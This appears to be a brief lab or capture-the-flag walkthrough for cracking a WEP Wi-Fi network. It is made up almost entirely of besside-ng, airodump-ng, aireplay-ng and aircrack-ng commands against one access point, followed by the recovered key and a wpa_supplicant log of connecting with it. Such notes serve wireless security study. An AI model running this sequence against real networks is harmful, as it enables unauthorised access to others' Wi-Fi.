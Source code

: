 1. https://github.com/A1vinSmith/Wi-Fi-Pentesting-Cheatsheet/blob/main/Wifi/cheatsheet/3%20-%20cracking.md#extra-wep
`sudo besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan2 -v`
2. step one can get the hex key already. Below for doing it mannually.
3. 
```bash
sudo airodump-ng -c 1 --bssid F0:9F:C2:AA:19:29 -w wifi-old wlan0mon

sudo aireplay-ng -1 3600 -q  10 -a F0:9F:C2:AA:19:29 wlan0mon

sudo aircrack-ng wifi-old-01.cap
```

`KEY FOUND! [ 11:BB:33:CD:55 ]`

4. ```bash
sudo wpa_supplicant -iwlan2 -c wep.conf -D nl80211
Successfully initialized wpa_supplicant
wlan2: SME: Trying to authenticate with f0:9f:c2:aa:19:29 (SSID='wifi-old' freq=2412 MHz)
nl80211: kernel reports: key not allowed
wlan2: Trying to associate with f0:9f:c2:aa:19:29 (SSID='wifi-old' freq=2412 MHz)
wlan2: Associated with f0:9f:c2:aa:19:29
wlan2: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:aa:19:29 completed [id=0 id_str=]
wlan2: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
```

-D is optional